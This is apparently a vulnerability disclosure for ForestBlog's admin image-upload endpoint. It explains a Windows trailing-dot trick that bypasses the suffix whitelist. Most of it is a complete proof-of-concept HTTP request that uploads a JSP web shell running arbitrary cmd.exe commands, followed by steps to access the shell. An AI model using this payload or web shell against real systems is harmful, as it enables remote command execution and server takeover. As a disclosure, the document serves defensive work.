




**BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name



In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection




```http
POST /admin/upload/img HTTP/1.1
Host: 172.24.93.157:8090
Content-Length: 1022
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Tz1JmHBgIb3k3BS
Origin: http://172.24.93.157:8090
Referer: http://172.24.93.157:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=0AC95C46C4BFDF9EE9424A1EA925EBA2
Connection: close

------WebKitFormBoundary6Tz1JmHBgIb3k3BS
Content-Disposition: form-data; name="file"; filename="1.jpg.jsp."
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*,java.net.*"%>
<%
//
// JSP_KIT
%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundary6Tz1JmHBgIb3k3BS--


```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。



You can also see that our files were successfully uploaded locally


